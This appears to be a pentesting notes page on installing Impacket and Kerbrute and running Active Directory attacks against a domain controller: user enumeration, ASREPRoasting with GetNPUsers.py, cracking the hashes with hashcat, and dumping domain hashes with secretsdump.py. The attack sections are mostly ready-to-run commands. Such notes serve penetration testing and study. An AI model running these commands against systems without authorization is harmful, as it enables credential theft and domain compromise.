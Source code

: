 [../](../)

# Impacket instalation

## Introduction

So you're likely here if you've had issues with Impacket. Impacket is moderately frustrating to say the least... A lot of people have issues with it, so let's walk through the Impacket install process!

## Installing Impacket

First, you'll want to clone the repo with:

```
git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
```

This will clone Impacket to /opt/impacket/, after the repo is cloned, you will notice several install related files, requirements.txt, and setup.py. Setup.py is commonly skipped during the installation. It's key that you DO NOT miss it.

So let's install the requirements:

```
pip3 install -r /opt/impacket/requirements.txt
```

Once all the python modules are installed, we can then run the python setup install script:

```
cd /opt/impacket/ && python3 ./setup.py install
```

After that, Impacket should be correctly installed now and it should be ready to use!

# Kerbrute

## Instalation
Clone the repository.

```
git clone https://github.com/ropnop/kerbrute.git /opt/kerbrute
cd /opt/kerbrute
```

With the repository cloned, you can also use the Make file to compile for common architectures:

```
make help
make all
```

Your new binaries will be inside `dist` directory.

## Usage

Enumerating users:

```
./kerbrute_linux_386 userenum --dc <RHOST> -d <domain> <userlist> 
```

# ASREPRoasting

After the enumeration of user accounts is finished, we can attempt to abuse a feature within Kerberos with an attack method called ASREPRoasting. ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

## Exploitation

Impacket has a tool called "GetNPUsers.py" (located in Impacket/Examples/GetNPUsers.py) that will allow us to query ASReproastable accounts from the Key Distribution Center. The only thing that's necessary to query accounts is a valid set of usernames which we enumerated previously via Kerbrute.

```
python3 GetNPUsers.py <domain>/ -dc-ip <RHOST> -usersfile <usersfile>
```

Then crack dumped hashes.

```
hashcat -m 18200 <hashfile> <wordlist>
```

# secretsdump.py

For this command to work you will need to also know user's password.

```
secretsdump.py -dc-ip <RHOST> <username>@<RHOST>
```

When successfull, this will dump domain user's NT:LM hashes.
